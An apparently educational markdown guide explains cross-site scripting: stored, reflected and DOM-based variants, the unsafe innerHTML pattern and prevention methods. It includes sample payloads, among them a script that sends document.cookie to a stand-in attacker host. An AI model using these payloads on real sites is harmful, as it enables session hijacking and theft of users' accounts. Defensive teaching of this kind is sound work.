







## 🔐 What is an XSS attack (Cross-Site Scripting)?





**XSS (Cross-Site Scripting)** is a **web security vulnerability** where an attacker injects **malicious JavaScript** into a trusted website, which then **runs in the victim’s browser**.

⚠️ The browser thinks the script is safe because it comes from a trusted site.


---

## 🧠 In simple words

Example:


```html
Welcome, <username>

```

If input is not sanitized, attacker enters:


```html
<script>alert("Hacked")</script>

```

Now that script runs in **every user’s browser** who views that page.


---

## ❌ Why XSS is dangerous

An attacker can:

- Steal cookies (session hijacking)
- Access logged-in accounts
- Read or modify webpage content
- Redirect users to fake sites
- Perform actions on behalf of the user
⚠️ **XSS attacks target users, not servers.**


---

## 🧩 Types of XSS attacks

### 1️⃣ Stored XSS (Persistent)







Malicious script is **stored in database**.

Example:

- Comment section
- Reviews
- Chat messages

```html
<script>fetch('attacker.com?cookie=' + document.cookie)</script>

```

Every user who views that comment gets attacked.

✅ Most dangerous type.


---

### 2️⃣ Reflected XSS







Script comes from **URL parameters** and is immediately reflected back.

Example URL:


```plain text
https://site.com/search?q=<script>alert(1)</script>

```

If site prints `q` directly → attack executes.

Usually used via:

- Phishing links
- Emails
- Fake URLs

---

### 3️⃣ DOM-based XSS







Happens **entirely in the browser**, not on the server.

Example:


```javascript
document.getElementById("output").innerHTML =
    location.hash;

```

If URL is:


```plain text
site.com/#<script>alert(1)</script>

```

Browser executes it.

⚠️ Very common in JavaScript-heavy apps (React, vanilla JS, etc.)


---

## 🔥 Real example (very common mistake)


```javascript
element.innerHTML = userInput;

```

❌ Dangerous → allows script execution

Safe version:


```javascript
element.textContent = userInput;

```

✅ Script will not execute


---

## 🛡️ How to prevent XSS

### ✅ Always escape user input

- Convert `< > " ' /` to HTML entities
### ✅ Never trust user data

Includes:

- Form inputs
- URL parameters
- Cookies
- API responses
### ✅ Use safe DOM methods

Prefer:


```javascript
textContent
innerText
setAttribute

```

Avoid:


```javascript
innerHTML
document.write
eval

```

### ✅ Use Content Security Policy (CSP)

Blocks inline scripts.

### ✅ Frameworks help (but not magic)

React, Vue, Angular auto-escape content —

but **XSS is still possible if you misuse them**.


---

## 🔑 One-line summary

